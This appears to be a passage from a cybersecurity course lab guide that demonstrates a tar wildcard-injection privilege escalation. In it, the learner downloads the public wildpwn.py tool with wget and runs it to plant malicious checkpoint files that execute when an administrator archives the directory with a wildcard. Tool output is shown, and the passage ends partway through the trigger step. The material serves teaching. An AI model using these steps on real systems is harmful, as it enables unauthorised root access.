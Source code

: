 - A hacker has gained access to our system by stealing the password for the instructor user.

- Although for this example we will pretend that instructor user does not have root access, in your activity you will truly be working on a user without root access.

- We will be taking the role of the hacker and will use `wildpwn.py` to plant malicious files. These files will be executed when an administrator with root privileges runs the tar command.

#### Exploiting `tar` Demo

1. Open up a terminal and run the following commands:

    - Create a new directory for this demonstration: `mkdir ~/Documents/exploit_demo`

    - Move to the `exploit_demo` directory with:

        - `cd ~/Documents/exploit_demo`

        - This is the directory to which the hacker would download the `wildpwn.py` program.

2. Download the script with `wget`.

    - Then, run `ls -l` to show that the `wildpwn.py` program is in this directory.

    - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

    - `ls -l`

      ```
      -rw-r--r--   1 instructor  instructor   3.6K Dec 19 12:46 wildpwn.py
      ```

3. Type  `python wildpwn.py tar .` and note that this will create both the malicious script and checkpoint files.

      - `python` is used to run Python programs.
      - `wildpwn.py` is the program we’re executing.
      - `tar` tells `wildpwn.py` to create malicious files that will exploit the `tar` command. This is necessary because `wildpwn.py` can exploit other commands as well.
      - The `.` specifies that these files should be created in the current directory.

   - Run the command and show the output:

      - `python wildpwn.py tar .`
      ```  
      [!] selected payload tar

      [*] Done! Now wait for something like: archive.tar * on . Good Luck!
      ```

    - Running `wildpwn.py` has successfully planted all the files needed for an attacker to exploit the system. These malicious files will be executed as soon as an administrator creates a `tar` archive containing them.

4. The script is now listening for someone to use the tar command. Let's archive this directory to activate the script.

    - This step will show how malicious code will execute when an unsuspecting administrator runs the `tar` command with a wildcard character.

    - Now, use `tar` with a wildcard to create an archive to generate the malicious files:
